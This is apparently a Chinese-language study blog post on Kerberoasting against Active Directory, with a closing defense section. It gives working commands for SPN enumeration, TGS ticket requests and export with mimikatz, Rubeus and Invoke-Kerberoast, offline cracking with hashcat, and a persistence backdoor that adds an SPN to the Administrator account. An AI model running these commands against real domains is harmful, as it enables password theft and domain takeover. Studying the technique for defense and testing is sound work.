





kerberosating攻击学习
前言
Kerberoasting攻击是Tim Medin在DerbyCon 2014 上发布的一种域口令攻击方法，Tim Medin同时发布了 配套的攻击工具kerberoast。此后，不少研究人员对Ker beroasting进行了改进和扩展，在GitHub上开发发布了 大量工具，使得Kerberoasting逐渐发展成为域攻击的常用方法之一。
基础知识
kerberos协议认证
可以参考前面关于票据部分的讲解。
kerberos协议的认证授权过程，3次涉及使用不同账户的NTLM作为密钥加密数据。
- 使用域用户的NTLM加密认证请求票据
- KDC使用Krbtgt账号的NTLM加密认证后的票据TGT
- KDC使用运行服务的服务账号的NTLM加密授权票据TGS

当发布Windows 2000和Active Directory时，微软打算在 Windows NT 和Windows 95 上也支持Active Directory，这意味着不仅会产生各种各样的安全问题也会导致更多不安全的配置方式。同时，也意味着，微软要保证在多个不同版本的 Windows 客户端上均支持Kerberos协议。
要实现这个想法的一个简单的办法就是在Kerberos协议中使用RC4加密算法·，并将NTLM密码哈希作为该加密算法的私钥，该私钥可用于加密或签名Kerberos票证。因此，对于攻击者来说，一旦发现了 NTLM 密码哈希，就可以随意使用，包括重新拿回Active Directory域权限（比如：黄金票证和白银票证攻击）。
SPN（ServicePrincipal Names)服务主体名称
官方文档：
https://docs.microsoft.com/en-us/windows/desktop/AD/service-principal-names
全称Service Principal Names
SPN是服务器上所运行服务的唯一标识，每个使用Kerberos的服务都需要一个SPN。
SPN分为两种，一种注册在AD上机器帐户(Computers)下，另一种注册在域用户帐户(Users)下
当一个服务的权限为Local System或Network Service，则SPN注册在机器帐户(Computers)下
当一个服务的权限为一个域用户，则SPN注册在域用户帐户(Users)下
SPN的格式
1 | serviceclass/host:port/servicename |
说明：
- serviceclass可以理解为服务的名称，常见的有www, ldap, SMTP, DNS, HOST等
- host有两种形式，FQDN和NetBIOS名，例如server01.test.com和server01
- 如果服务运行在默认端口上，则端口号(port)可以省略

查询SPN
对域控制器发起LDAP查询，这是正常kerberos票据行为的一部分，因此查询SPN的操作很难被检测。
(1) 使用SetSPN
Win7和Windows Server2008自带的工具
查看当前域内的所有SPN：
1 | setspn.exe -q */* |
查看test域内的所有SPN：
1 | setspn.exe -T test -q */* |
简述Kerberosating攻击
Kerberos使用公开的对称加密算法
1 | y = f (x,key) |
- F为已知的对称加密算法 ，如RC4-HMAC
- x为待加密的数据，包含时间戳，其他为固定格式的内容,
- key为加密密钥，即NTLM
- y为加密后的数据
如果能从Kerberos域网络中获取y,则根据已知算法f，使用不同的f可推算出不同的x。 由于x中包含简单易辨的时间戳，所以通过时间戳可快速判定数据解密是否正确，从而判定使用的是否为要寻找的口令.
选择SPN服务账号的原因
在域内主要有主机账号、用户账号、服务账号等3种主要账号类型
- 主机账号的口令由系统随机设置，几乎不能破解，而且每30天自动变更一次用户账号的口令复杂度由策略而定，在复杂度要求较高的域内，破解难度较大。
- 服务账号的口令存在很大的特殊性，口令在应用软件安装时往往自动设定，复杂度往往较为简单口令几乎不会更改，因为大部分应用软件没有提供修改服务账号的功能和接口，例如运行MS SQL Server 服务的sqlsvc账号等
- SPN存在于账号的属性中，因此可以通过查询所有账号的属性，遍历域内所有SPN服务。因为主机账号的口 令几乎不能破解，所以只查询用户账号的SPN。
攻击流程
查询SPN，找到有价值的SPN
- 该SPN注册在域用户帐户(Users)下
- 域用户账户的权限很高
请求服务票据(tgs)
导出服务票据(tgs)
重写服务票据&RAM注入
实现Kerberoasting攻击的前提
- 对于kerberos协议认证过程中返回的tgs_reply，在已知加密算法的前提下，我们可以尝试穷举口令。(服务密码一般默认为弱密码)
- Windows系统通过SPN查询获得服务和服务实例帐户的对应关系
- 域内的主机都能查询SPN。
- 域内的任何用户都可以向域内的任何服务请求TGS。
Kerberoasting攻击的利用
使用 Rubeus工具
https://github.com/GhostPack/Rubeus
这是一个专门针对Kerberos的工具包，这个编译好像比较费事。。
1 | Rubeus.exe kerberoast |
1 | C:\Rubeus>Rubeus.exe kerberoast |
将哈希保存为hash.txt文件，放到hashcat的目录下。使用命令
1 | hashcat64.exe -m 13100 hash.txt pass.txt |
离线破解服务票据
1、获得有价值的SPN
需要满足以下条件：
- 该SPN注册在域用户帐户(Users)下
- 域用户账户的权限很高
可以选择以下三种方法：
(1)使用powershell模块Active Directory
注：powershell模块Active Directory 需要提前安装，域控制器一般会安装
1 | import-module ActiveDirectory |
对于未安装Active Directory模块的系统，可以通过如下命令导入Active Directory模块：
1 | import-module .\Microsoft.ActiveDirectory.Management.dll |
Microsoft.ActiveDirectory.Management.dll在安装powershell模块Active Directory后生成，我已经提取出来并上传至github：
https://github.com/3gstudent/test/blob/master/Microsoft.ActiveDirectory.Management.dll
(2)使用PowerView
https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
1 | Get-NetUser -spn -AdminCount|Select name,whencreated,pwdlastset,lastlogon |
(3)使用kerberoast
powershell:
https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
vbs:
https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.vbs
参数如下：
1 | cscript GetUserSPNs.vbs |
2、请求TGS
(1)请求指定TGS
1 | $SPNName = 'MSSQLSvc/DC1.test.com' |
(2)请求所有TGS
1 | Add-Type -AssemblyName System.IdentityModel |
执行后输入klist查看内存中的票据，可找到获得的TGS
3、导出
使用mimikatz
1 | kerberos::list /export |
4、破解
https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
1 | ./tgsrepcrack.py wordlist.txt test.kirbi |
0x05 Kerberoasting的实现方法二
自动实现，并且不需要mimikatz，普通用户权限即可，参考资料：
http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/
代码地址：
https://github.com/EmpireProject/Empire/commit/6ee7e036607a62b0192daed46d3711afc65c3921
使用System.IdentityModel.Tokens.KerberosRequestorSecurityToken请求TGS，在返回结果中提取出TGS，输出的TGS可选择John the Ripper或Hashcat进行破解
实例演示：
在域内一台主机上以普通用户权限执行：
1 | Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl |
-AdminCount表示选择高权限的用户
输出结果如下图

只提取出hash的参数如下：
1 | Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation |
输出结果如下图

使用hashcat破解的参数如下：
1 | hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force |
破解结果如下图，成功获得明文口令MySQLAdmin111!

注：
Rubeus也可以实现Invoke-Kerberoast的功能，地址如下：
https://github.com/GhostPack/Rubeus
参数如下：
1 | Rubeus.exe kerberoast |
0x06 Kerberoasting的后门利用
在我们取得了SPN的修改权限后，可以为指定的域用户添加一个SPN，这样可以随时获得该域用户的TGS，经过破解后获得明文口令
例如为域用户Administrator添加SPNVNC/DC1.test.com，参数如下：
1 | setspn.exe -U -A VNC/DC1.test.com Administrator |
如下图

在域内任意一台主机都能获得该SPN，并且能够使用Kerberoast获得TGS，如下图

再使用hashcat破解即可
补充：
删除SPN的参数如下：
1 | setspn.exe -D VNC/DC1.test.com Administrator |
0x07 防御
Kerberoasting攻击的主要前提是口令复杂度较低、 加密算法强度较弱
对抗Kerberoasting攻击也需从这2方面开展:
- 提高服务账号的口令复杂度；
- 尽量将域内的服务器系统升级至少至Windows 2008 系统，应用AES256高难度的加密算法.
管理员可在域内一台主机上使用Invoke-Kerberoast检查是否存在危险的SPN
下载地址：
https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
参数：
1 | Get-NetUser -spn -AdminCount|Select name,whencreated,pwdlastset,lastlogon |